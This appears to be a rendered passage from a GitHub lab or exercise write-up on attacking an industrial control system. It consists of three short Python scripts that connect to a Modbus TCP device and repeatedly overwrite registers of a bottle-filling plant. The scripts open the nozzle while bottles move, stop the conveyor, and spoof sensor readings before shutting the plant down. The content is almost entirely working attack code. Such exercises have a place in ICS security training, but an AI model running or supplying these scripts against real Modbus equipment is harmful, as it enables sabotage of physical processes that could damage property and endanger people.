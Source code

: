 #### Start the plant, open the nozzle while bottles are moving.

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(3, 1)  # Start the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```

#### Start the plant, open the nozzle and stop the rollet.

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(3, 0)  # Stop the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```

#### Repeat attack in question 1 abusing sensor registries.

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 0)  # Bottle is not filled
  client.write_register(2, 0)  # Bottle is under the nozzle
  client.write_register(3, 0)  # Stop the motor
  client.write_register(4, 0)  # Close the nozzle
  client.write_register(16, 0) # Shutdown the plant
```

